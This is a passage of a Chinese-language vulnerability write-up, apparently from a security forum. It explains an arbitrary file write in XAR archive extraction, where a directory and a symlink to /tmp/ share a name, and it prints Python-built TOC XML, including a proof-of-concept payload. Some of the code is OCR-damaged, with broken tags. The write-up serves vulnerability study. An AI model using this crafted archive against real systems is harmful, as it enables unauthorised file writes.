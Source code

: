 ```xml
xml = b"""<?xml version="1.0" encoding="UTF-8"?><xar>
<toc>
<checksum style="sha1">
<offset>0</offset><size>20</size>
</checksum>
<file id="1">
    <name>a</name>
<type>directory</type>
</file>
<file id="2">
    <name>b</name>
<type>file</type
<data>
<archived-checksum style="sha1">{0}</archived-checksum><extracted-checksum style="sha1">{0}</extracted-checksum>
<size>6</size>
<offset>20</offset>
<encoding style="application/octet-stream" /><length>6</length>
</data>
</file>
<file id="3">
    <name>c</name>
<type>symlink</type>
<link type="directory">/tmp/</link>
</file>
</toc>
</xar>""".format( hashlib.sha1(data).hexdigest())comp = zlib.compress(xml)
```

在输出内容时，我们可以看到目录"c"首先被处理

![0980a4c372361578f1a56707a750b92.jpg](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-e2f6ccd5c2d0a4a80c71924c7f6ea158d763e8b8.jpg)  
这意味着，将目录路径放在TOC中的目录之前（即从上到下的第一个目录），将导致TOC失败，并显示前面显示的消息。因为如果已经存在同名目录，它将拒绝创建新的，此时它将跳过符号链接创建，只将文件写入原来目录。

但是，如果我们将新目录路径放在目录的末尾，这将导致新目录创建成功。无论如何都会继续执行，我们在新创建的目录中创建文件。

总之，如果我们创建一个目录，末尾有一个目录，开头有一个包含文件的目录，我们会导致任意写入文件漏洞产生：

1. 首先创建新目录
2. 尝试创建目录（失败，但继续）
3. 将文件写入我们的新目录（实现任意文件写入）

以下是利用此漏洞的Poc示例：

```xml
xml = b"""<?xml version="1.0"encoding="UTF-8"?><xar>
<toc>
<checksum style="sha1"><offset>0</offset><size>20</size></ checksum>
<file id="1"><name>.x</name>
<type>directory</type><file id="2">
<name>test</name><type>file</type><data>
<archived-checksum style="sha1">{0}</archived-checksum><extracted-checksum style="sha1">{0}</extracted-checksum><size>6</size>
<offset>20</offset>
<encoding style="application/octet-stream" /><length>6</length>
</data>
</file></file>
<file id="3"><name>.x</name>
<type>symlink</type>
<link type="directory">/tmp/</link></file>
</toc>
</xar>""".format( hashlib.sha1(data).hexdigest( ))comp = zlib.compress(xml)
```
